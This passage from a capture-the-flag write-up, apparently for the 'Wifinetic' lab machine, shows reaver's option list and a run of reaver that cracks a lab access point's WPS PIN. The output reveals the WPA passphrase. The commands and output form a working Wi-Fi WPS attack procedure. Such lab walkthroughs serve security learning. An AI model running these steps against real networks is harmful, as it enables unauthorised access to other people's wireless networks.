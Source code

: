```
        -T, --m57-timeout=<seconds>     Set the M5/M7 timeout period [0.40]
        -A, --no-associate              Do not associate with the AP (association must be done by another application)
        -N, --no-nacks                  Do not send NACK messages when out of order packets are received
        -S, --dh-small                  Use small DH keys to improve crack speed
        -L, --ignore-locks              Ignore locked state reported by the target AP
        -E, --eap-terminate             Terminate each WPS session with an EAP FAIL packet
        -J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
        -F, --ignore-fcs                Ignore frame checksum errors
        -w, --win7                      Mimic a Windows 7 registrar [False]
        -K, --pixie-dust                Run pixiedust attack
        -Z                              Run pixiedust attack

Example:
        reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv

```

I need the name of the name of the monitor-mode interface and the BSSID of the target AP. The example at the bottom, `reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv` shows the BSSID looks like a MAC address, and in fact, [it is](https://en.wikipedia.org/wiki/Service_set_(802.11_network)).

#### Run Reaver

The target AP is `wlan0`, which has a MAC from the `iw` command above of `02:00:00:00:00:00`. The monitor-mode interface is `mon0`. Most `reaver` tutorials show using the `wash` command to get the BSSID/MAC. This doesn’t work here, and I’ll look at that in [Beyond Root](#beyond-root).

I’ll use those to run `reaver`:

```
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.

```

